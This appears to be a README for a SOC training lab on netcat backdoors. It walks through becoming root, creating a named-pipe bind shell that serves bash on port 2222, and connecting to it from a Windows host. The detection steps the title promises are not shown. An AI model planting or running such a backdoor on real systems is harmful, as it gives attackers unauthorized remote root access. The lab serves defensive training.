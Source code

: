 # "Linux CLI Malware Detection: Netcat Backdoor

This lab is provided by Antisyphon Training's SOC Core Skills course. We will explore the setup and detection of backdoor malware using a netcat listener, a common tool for establishing unauthorized remote access. The exercise aims to simulate a real-world cyber threat scenario, providing hands-on experience in malware analysis and defense techniques. By leveraging the Linux Command Line Interface (CLI), we will detect and analyze the backdoor. 
<br>

## Create the malware 
- We will first sudo into root so that we can have a backdoor running root.
```
sudo su -
```
<br>
<br>

- This is a simple backdoor mechanism that uses netcat to create a network listener that pipes commands to and from a bash shell, allowing an attacker to remotely execute commands on the system by connecting to port 2222. 
```
mknod backpipe p
/bin/bash  0<backpipe | nc -l 2222 1>backpipe
```
<br>

![backdoor](https://github.com/trixiahorner/Linux_CLI/assets/162903587/d9187608-208a-4da0-99d3-70435d6ef994)
<br>
<br>

- We need the IP of our linux system so that we can connect
```
ifconfig
```
<br>
<br>

- Now let's connect from our windows system! Once connected, we can type some commands to ensure that it is working. As you can see, our Windows computer is connected to the simple Linux backdoor as root. This is the malware. Someone is listening.
```
ncat 172.17.231.122 2222
```
<br>

![netcat](https://github.com/trixiahorner/Linux_CLI/blob/main/images/C2.png?raw=true)
<br>
<br>

# Conclusion
This lab is crucial for understanding the behavior of backdoor malware and the methodologies used to identify and respond to such threats effectively.

